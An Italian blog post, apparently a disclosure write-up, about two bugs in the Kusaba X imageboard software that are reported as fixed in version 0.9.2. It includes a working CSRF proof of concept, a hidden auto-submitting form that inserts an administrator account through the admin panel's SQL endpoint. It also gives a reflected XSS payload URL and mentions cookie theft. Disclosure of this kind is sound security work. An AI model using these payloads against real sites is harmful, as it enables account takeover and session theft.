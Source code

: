Ultimamente mi affascina il penetration testing di applicazioni web, scoperto in ritardo visto il mio retaggio primi anni 2000, più dedicato ad *nix, raw sockets e C. Armato di un buon proxy server per il pentest web mi sono dedicato all'auditing di alcune web applications di mia conoscenza.

## Kusaba X e le imageboard

[Kusaba X](http://kusabax.cultnet.net/) è un software per [imageboard](http://it.wikipedia.org/wiki/Imageboard), una sito internet simile alle vecchie bullettin board, ma basato sulla pubblicazione di immagini. Una famosa comunità creatasi da una sezione di una imageboard è /b/ di 4chan, di cui si sente tanto parlare in tanto in tanto per azioni di trolling o per gli attacchi del gruppo Anonymous.
La peculiarità più nota delle imageboard è la completa anonimità degli utenti: i post non sono firmati, nessuno è resposabile delle proprie parole e tutti interloquiscono con un unico nome collettivo. Questa depersonalizzazione le porta ad essere dei microcosmi _anarcheggianti_, davanti ai quali ci si trova spiazzati dal linguaggio incomprensibile, per immagini di cattivo gusto, humor nero, razzismo, trolling, [internet meme](http://en.wikipedia.org/wiki/Internet_meme), e altro. Queste comunità richiamano un internet affascinante di tanti anni fa, senza ancora il recinto messo da facebook ma irc e la magia di non sapere con cui stai interloquendo. Trovo anche nel nome collettivo Anonymous bel un richiamo [blissettiano](http://it.wikipedia.org/wiki/Luther_Blissett_(pseudonimo)), del quale purtroppo si è appropriato il sedicente gruppo "hacker" legato a 4chan.

Finito il discorso da Dams, passiamo alle cose più serie. L'advisory ufficiale è pubblicato nei principali vulnerability [database](http://www.exploit-db.com/exploits/17221/). Ho avvertito gli sviluppatori e i bug sono stati fixati dalla versione 0.9.2.

## Arbitrary SQL statements execution via CSRF

Nelle richieste al pannello di amministrazione non vi è alcun anti csrf token o controllo del referer, quindi è sufficiente che un amministratore loggato visiti la pagina con il CSRF per forzarlo a eseguire comandi privilegiati. ll pannello di amministrazione permette addirittura di inviare comandi SQL con un semplice POST, il che ci rende molto facile fare qualsiasi query al database. Il codice aggiunge un utente privilegiato alla lista degli amministratori, con username 'new_admin' e password 'admin' (salt 'TMC').

~~~ { html }
<html>
<body>
<iframe style="width: 1px; height: 1px; visibility: hidden"
name="hidden"></iframe>
<form method="post" name="sender"
action="http://localhost/kusabax/manage_page.php?action=sql"
target="hidden">
<input type="hidden" name="query"
value="insert into staff values (1331, 'new_admin',
'6a9685fcb53b90f0ca9a1c72d7fa31d2', 'TMC', 1, NULL, 1303904817,
1303908333)">
</form>
</body>
<script>document.sender.submit(); </script>
</html>
~~~

## XSS vulnerability on animation.php

Il file animation.php riflette un parametro passato nella GET senza averlo sanificato

~~~ { php }
<param name="pch_file" value="<?php echo KU_BOARDSPATH . '/' . $_GET['board'] . '/src/' . $_GET['id'] . '.pch'; ?>">
~~~

E il POC è un semplice

~~~ { html }
http://localhost/kusabax/animation.php?board=b&id=1"><script>alert('XSS')</script><"
~~~

ed è ancora più semplice [rubare i cookie](http://en.wikipedia.org/wiki/Cross-site_scripting#Cookie_security) dell'amministratore con un cookie grabber.
